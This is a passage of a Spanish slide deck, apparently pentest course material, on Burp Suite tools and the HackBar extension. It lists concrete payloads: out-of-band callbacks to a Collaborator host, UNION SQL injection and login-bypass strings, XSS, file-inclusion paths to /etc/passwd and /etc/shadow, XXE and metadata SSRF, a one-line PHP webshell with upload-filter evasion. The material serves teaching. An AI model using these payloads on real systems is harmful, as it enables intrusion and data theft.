  \item Tipos de ataque (payload positions con \dots{})
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Repeater profesional + Session handling}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Repeater
  \item Ctrl+R envía la petición; pestañas e historial (deshacer).
  \item Inspector, cambiar método, seguir redirecciones, Render.
  \item Comparer: diff entre dos respuestas (detecta diferencias sutiles).
  \item Session handling rules + Macros
  \item Settings $\rightarrow$ Sessions. Imprescindible cuando la app usa token
  \item CSRF por petición o la sesión caduca: la macro re-loguea o
  \item recoge el token y lo inyecta antes de cada intento (ver diagrama).
  \item Así Intruder/Scanner funcionan en apps con anti-CSRF.
  \item portswigger.net/burp/documentation/desktop/settings/sessions
  \item Burp lanza la petición
  \item (Intruder / Scanner)
  \item Regla de sesión dispara una MACRO
  \item Macro: re-login / pide token CSRF
  \item Token/sesión inyectado $\rightarrow$ petición válida
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Repeater --- trucos de productividad}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Organización
  \item Renombrar pestañas: doble clic (evita el caos de tabs numeradas). Reabrir pestaña cerrada: clic derecho en la zona de pestañas $\rightarrow$ Reopen Closed Tab.
  \item Construir y ajustar peticiones
  \item clic derecho $\rightarrow$ Paste URL as request \# crea la petición desde una URL, sin capturarla
  \item seleccionar texto $\rightarrow$ Ctrl+U (URL-encode) \# cuela \textless{} \textgreater{} por filtros
  \item Change request method GETPOST (mueve los parámetros URL$\leftrightarrow$cuerpo). Follow redirections para probar Open Redirect / cache poisoning.
  \item Analizar y documentar
  \item Barra de búsqueda inferior en Request/Response (localiza reflejos de parámetros). Vistas: lado a lado / arriba-abajo / pestañas. Clic derecho $\rightarrow$ Save entire history $\rightarrow$ XML (IP, dominio, req/resp) para el informe.
  \item Fuente: Burp Suite for Pentester: Repeater --- Hacking Articles
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Burp Collaborator --- detección OOB}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item El problema
  \item Muchas vulns son CIEGAS: no devuelven salida ni error (blind RCE,
  \item XSS, XXE, SSRF) $\rightarrow$ no sabes si existen.
  \item Qué es
  \item Un servidor OOB (DNS/HTTP/SMTP) de PortSwigger con subdominios
  \item únicos. Si el objetivo hace una petición a tu subdominio $\rightarrow$ la vuln existe.
  \item Cómo usarlo
  \item Burp $\rightarrow$ Collaborator $\rightarrow$ Copy to clipboard (payload único)
  \item Inyéctalo en el punto vulnerable; el cliente sondea las interacciones
  \item (DNS/HTTP) recibidas $\rightarrow$ confirma la vuln a ciegas.
  \item Hacking Articles --- Burp Suite for Pentester: Burp Collaborator
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl046_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Burp Collaborator --- vulns ciegas}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Blind OS Command Injection
  \item 127.0.0.1 | nslookup \textless{}payload.collaborator\textgreater{} $\rightarrow$ callback DNS
  \item Blind XSS
  \item \textless{}script src=//\textless{}payload.collaborator\textgreater{}\textgreater{}\textless{}/script\textgreater{} $\rightarrow$ callback HTTP
  \item Blind XXE
  \item \textless{}!ENTITY x SYSTEM 'http://\textless{}payload.collaborator\textgreater{}'\textgreater{} \&x;
  \item SSRF
  \item ?url=http://\textless{}payload.collaborator\textgreater{} $\rightarrow$ el servidor llama al Collaborator
  \item Si un único payload no funciona $\rightarrow$ fuzzear el punto con Intruder.
  \item Hacking Articles --- Burp Suite for Pentester: Burp Collaborator
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl047_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Collaborator --- servidor y cliente}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Servidor (Project options $\rightarrow$ Misc)
  \item Por defecto usa el servidor PÚBLICO de PortSwigger; también se puede desplegar uno PRIVADO (Server + Polling location).
  \item Run health check $\rightarrow$ verifica DNS/HTTP/SMTP(S)
  \item Cliente (Burp $\rightarrow$ Burp Collaborator client)
  \item Copy to clipboard genera N payloads únicos (1-10, con la ubicación del server) para pegar en los puntos de inyección (Repeater/Intruder).
  \item 127.0.0.1 | nslookup \textless{}payload\textgreater{}.burpcollaborator.net
  \item Interacciones
  \item Poll now (o cada 60 s) rellena la tabla de callbacks: Time $\cdot$ Type (DNS/HTTP/SMTP) $\cdot$ Payload $\rightarrow$ confirma la vuln ciega.
  \item Fuente: Hacking Articles / Ignite --- Burp Collaborator
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl048_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Habilidades esenciales --- escaneo dirigido}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Detección rápida con escaneo dirigido
  \item En vez de escanear a ciegas, dirigir el escáner a lo que importa: parámetros reflejados, formularios, endpoints de API y cabeceras.
  \item Burp Scanner (audit selectivo) $\cdot$ nuclei -t \textless{}template\textgreater{} $\cdot$ ffuf en params
  \item Escaneo de estructuras de datos no estándar
  \item Muchos ataques se esconden en JSON/XML anidados, arrays o parámetros dentro de parámetros (base64, JSON en un valor).
  \item param = base64(\{\textquotedbl{}role\textquotedbl{}:\textquotedbl{}user\textquotedbl{}\}) $\cdot$ Burp Insertion points en JSON/XML
  \item Configurar los puntos de inyección DENTRO de la estructura (no solo el valor completo) para probar cada campo anidado.
  \item Param Miner + Burp Guess parameters descubren params/headers ocultos que escapan al escaneo normal.
  \item Fuente: curso Hacking Web $\cdot$ hack4u.io
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Burp --- Crawler (mapeo del sitio)}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item ¿Qué hace?
  \item Descubre páginas y directorios (incluidos ocultos) y vuelca el resultado en árbol en Site Map (pestaña Target), con método, parámetros y estado de cada URL.
  \item Lanzarlo
  \item New Scan $\rightarrow$ Crawl $\cdot$ URL objetivo $\cdot$ OK
  \item Personalizar (Scan configuration $\rightarrow$ New)
  \item Optimización Fastest$\leftrightarrow$Deepest. Crawl Limit: tiempo y n de ubicaciones únicas. Application login: credenciales para páginas restringidas. Resource Pool: concurrencia y delay (apps frágiles). URLs fuera de Scope.
  \item Fuente: Burp Suite for Pentester: Web Scanner \& Crawler --- Hacking Articles
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl050_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Burp --- Scanner (Audit)}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Burp también es escáner de vulns
  \item El escaneo se llama Audit. Al crear el scan eliges Crawl \& Audit, o auditas lo ya mapeado con Audit selected items.
  \item Ejecutar y revisar
  \item La tarea va poblando Issue activity y el panel de advisories: cada issue trae severidad, confianza y la request/response que lo prueba.
  \item Configurar la auditoría
  \item Audit configurations: tipo de scan (rápido$\leftrightarrow$exhaustivo), qué familias de vulns probar y opciones avanzadas (insertion points, resource pool).
  \item El Scanner es exclusivo de Burp Suite PROFESSIONAL (la Community no lo trae).
  \item Fuente: Burp Suite for Pentester: Web Scanner \& Crawler --- Hacking Articles
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl051_1.png}
\end{center}
\end{frame}

\section{HackBar}

\begin{frame}[allowframebreaks]{HackBar --- Extensión de Burp Suite}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item ¿Qué es HackBar?
  \item Extensión de Burp Suite que acelera la inserción de payloads
  \item para las vulnerabilidades web más comunes. Evita errores de
  \item escritura manual y permite explotar desde el Repeater con
  \item un clic derecho $\rightarrow$ Hackbar $\rightarrow$ seleccionar payload.
  \item Instalación
  \item 1. Burp Suite $\rightarrow$ Extensions $\rightarrow$ BApp Store
  \item 2. Buscar 'HackBar' $\rightarrow$ Install
  \item --- O bien: descargar el .jar y añadirlo manualmente
  \item 3. Extensions $\rightarrow$ Add $\rightarrow$ Type: Java $\rightarrow$ seleccionar el .jar
  \item 4. Verificar en Repeater: clic derecho $\rightarrow$ debe aparecer 'Hackbar'
  \item Vulnerabilidades cubiertas
  \item SQL Injection (ORDER BY, UNION, Login Bypass)
  \item Cross-Site Scripting (XSS)
  \item Local File Inclusion (LFI) --- Linux y Windows
  \item XXE Injection
  \item File Upload (webshell PHP)
  \item OS Command Injection + Reverse Shells
  \item BApp Store: portswigger.net/bappstore
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl052_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HackBar --- SQL Injection: ORDER BY y UNION}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Flujo de trabajo con HackBar
  \item 1. Interceptar petición $\rightarrow$ Send to Repeater (Ctrl+R)
  \item 2. Clic derecho en el parámetro inyectable
  \item 3. Hackbar $\rightarrow$ SQL Injection $\rightarrow$ elegir técnica
  \item Determinar número de columnas
  \item Hackbar $\rightarrow$ SQL Injection $\rightarrow$ Column Count $\rightarrow$ Order By
  \item $\rightarrow$ Prueba ORDER BY 1, 2, 3... hasta que se produzca error
  \item $\rightarrow$ Error en ORDER BY 4 $\rightarrow$ la tabla tiene 3 columnas
  \item UNION-Based: extraer datos
  \item Reemplazar id=1 por id=-1 (evitar datos reales)
  \item Hackbar $\rightarrow$ SQL Injection $\rightarrow$ Union Based $\rightarrow$ No. of Columns: 3
  \item $\rightarrow$ Genera: -1 UNION SELECT 1,2,3 --
  \item $\rightarrow$ Los números visibles en respuesta = campos inyectables
  \item Extraer información de la BD
  \item Sustituir número visible por función:
  \item -1 UNION SELECT 1,database(),version() --
  \item -1 UNION SELECT 1,user(),@@datadir --
  \item -1 UNION SELECT 1,schema\_name,3 FROM information\_schema.schemata --
  \item Fuente: BurpSuite.pdf --- Sección SQL Injection
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl053_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HackBar --- SQLi Login Bypass}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Login Bypass con HackBar
  \item HackBar incluye diccionarios predefinidos de payloads
  \item de bypass de autenticación SQL listos para inyectar.
  \item Procedimiento
  \item 1. Interceptar el formulario de login (POST /login)
  \item 2. Send to Repeater $\rightarrow$ localizar parámetros uname y pass
  \item 3. Seleccionar los parámetros $\rightarrow$ clic derecho:
  \item Hackbar $\rightarrow$ SQLi Login Bypass $\rightarrow$ Set 1 $\rightarrow$ 'or''='
  \item 4. Enviar con Send $\rightarrow$ analizar la respuesta
  \item $\rightarrow$ Si la respuesta muestra dashboard/panel: bypass exitoso
  \item Payloads equivalentes manuales
  \item admin'--
  \item ' OR '1'='1
  \item ' OR 1=1--
  \item ' OR ''='
  \item admin'/*
  \item Sets adicionales en HackBar
  \item Si el Set 1 no funciona, probar Set 2, Set 3...
  \item Cada set contiene payloads con diferente sintaxis para
  \item evadir distintos tipos de validación o filtros.
  \item Si ningún set funciona: el campo puede usar prepared statements
  \item Fuente: BurpSuite.pdf --- Sección SQLi Login Bypass
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl054_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HackBar --- Cross-Site Scripting (XSS)}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item XSS con HackBar
  \item HackBar incluye payloads XSS básicos y avanzados,
  \item evitando errores de escritura de caracteres especiales.
  \item Procedimiento
  \item 1. Interceptar petición con el parámetro de búsqueda/input
  \item 2. Send to Repeater
  \item 3. Seleccionar el punto de inyección $\rightarrow$ clic derecho:
  \item Hackbar $\rightarrow$ XSS $\rightarrow$ Basic $\rightarrow$ \textless{}script\textgreater{}alert('XSS')\textless{}/script\textgreater{}
  \item 4. Send $\rightarrow$ revisar la respuesta HTML
  \item $\rightarrow$ Si \textless{}script\textgreater{}alert('XSS')\textless{}/script\textgreater{} aparece sin escapar: vulnerable
  \item 5. Usar 'Show Response in Browser' para confirmar el popup
  \item Payloads adicionales en HackBar
  \item XSS $\rightarrow$ Basic $\rightarrow$ diferentes variantes de \textless{}script\textgreater{}
  \item XSS $\rightarrow$ Attribute $\rightarrow$ para inyectar en atributos HTML
  \item XSS $\rightarrow$ Event handlers $\rightarrow$ onmouseover, onerror, onload...
  \item XSS $\rightarrow$ Bypass $\rightarrow$ técnicas de evasión de filtros
  \item Confirmar en el navegador
  \item Burp Proxy $\rightarrow$ clic derecho $\rightarrow$ Show Response in Browser
  \item $\rightarrow$ Pegar la URL generada en el navegador
  \item $\rightarrow$ Si aparece el popup: XSS stored/reflected confirmado
  \item Fuente: BurpSuite.pdf --- Sección Cross-Site Scripting
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl055_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HackBar --- Local File Inclusion (LFI)}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item LFI con HackBar
  \item HackBar incluye payloads para Linux, Windows y Path Traversal.
  \item Procedimiento
  \item 1. Identificar parámetro de inclusión de fichero:
  \item ?page=home, ?file=index.php, ?include=about
  \item 2. Interceptar la petición $\rightarrow$ Send to Repeater
  \item 3. Seleccionar el valor del parámetro $\rightarrow$ clic derecho:
  \item Hackbar $\rightarrow$ LFI $\rightarrow$ Simple Check $\rightarrow$ /etc/passwd
  \item 4. Send $\rightarrow$ verificar si aparece el contenido del fichero
  \item Payloads disponibles en HackBar
  \item Linux:
  \item /etc/passwd
  \item /etc/shadow (requiere root)
  \item /etc/hosts
  \item /proc/self/environ
  \item Windows:
  \item C:/Windows/System32/drivers/etc/hosts
  \item C:/boot.ini
  \item Path Traversal:
  \item ../../../../etc/passwd
  \item ..\%2F..\%2F..\%2Fetc\%2Fpasswd (URL encoded)
  \item php://filter/convert.base64-encode/resource=/etc/passwd
  \item Fuente: BurpSuite.pdf --- Sección Local File Inclusion
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl056_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HackBar --- XXE Injection}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item XXE con HackBar
  \item HackBar genera automáticamente los payloads XML con
  \item la definición de entidad externa y la referencia.
  \item Procedimiento
  \item 1. Identificar endpoint que procesa XML
  \item (Content-Type: text/xml o application/xml)
  \item 2. Interceptar la petición $\rightarrow$ Send to Repeater
  \item 3. Clic derecho en el cuerpo XML $\rightarrow$ Hackbar $\rightarrow$ XXE $\rightarrow$ Select
  \item $\rightarrow$ HackBar inserta automáticamente:
  \item \textless{}!DOCTYPE foo [\textless{}!ENTITY file SYSTEM \textquotedbl{}file:///etc/passwd\textquotedbl{}\textgreater{}]\textgreater{}
  \item 4. Sustituir el valor original por \&file; en el XML
  \item 5. Send $\rightarrow$ el contenido del fichero aparece en la respuesta
  \item Variantes de payload XXE
  \item Lectura de fichero local: file:///etc/passwd
  \item SSRF via XXE: http://169.254.169.254/latest/meta-data/
  \item Error-based XXE: forzar error con entidad recursiva
  \item Blind XXE: exfiltración por DNS/HTTP (OOB)
  \item Tip: cambiar Content-Type
  \item Si el endpoint no acepta XML, probar cambiar el Content-Type
  \item de application/json a application/xml e inyectar el XXE.
  \item Fuente: BurpSuite.pdf --- Sección XXE Injection
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl057_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HackBar --- File Upload y Webshell PHP}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Generar una Webshell con HackBar
  \item HackBar puede generar webshells PHP para incluir en ficheros subidos.
  \item Procedimiento
  \item 1. En Burp Repeater $\rightarrow$ clic derecho en zona vacía:
  \item Hackbar $\rightarrow$ File Upload $\rightarrow$ PHP Webshell $\rightarrow$ copiar el código generado
  \item 2. Pegar en un fichero .php $\rightarrow$ guardar como webshell.php
  \item 3. Subir el fichero via el formulario de upload vulnerable
  \item 4. Descubrir la ruta de subida (gobuster, ffuf, código fuente)
  \item 5. Acceder: http://victima.com/uploads/webshell.php?cmd=id
  \item Webshell básica (generada por HackBar)
  \item \textless{}?php echo system(\$\_GET[\textquotedbl{}cmd\textquotedbl{}]); ?\textgreater{}
  \item ?cmd=id $\rightarrow$ usuario del servidor web
  \item ?cmd=cat /etc/passwd $\rightarrow$ usuarios del sistema
  \item ?cmd=ls /var/www/ $\rightarrow$ listar directorio web
  \item Evasión de filtros de extensión
  \item Cambiar .php $\rightarrow$ .php5, .phtml, .phar, .php7
  \item Content-Type: cambiar a image/jpeg manteniendo el código PHP
  \item Doble extensión: webshell.jpg.php (si solo valida inicio)
  \item Null byte: webshell.php\%00.jpg (en PHP antiguo)
  \item Para reverse shell: usar el módulo OS Command Injection de HackBar
  \item Fuente: BurpSuite.pdf --- Sección Unrestricted File Upload
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl058_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HackBar --- OS Command Injection y Reverse Shell}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Command Injection con HackBar
  \item HackBar incluye payloads de inyección de comandos OS y generadores
  \item de reverse shell de un solo comando (one-liners).
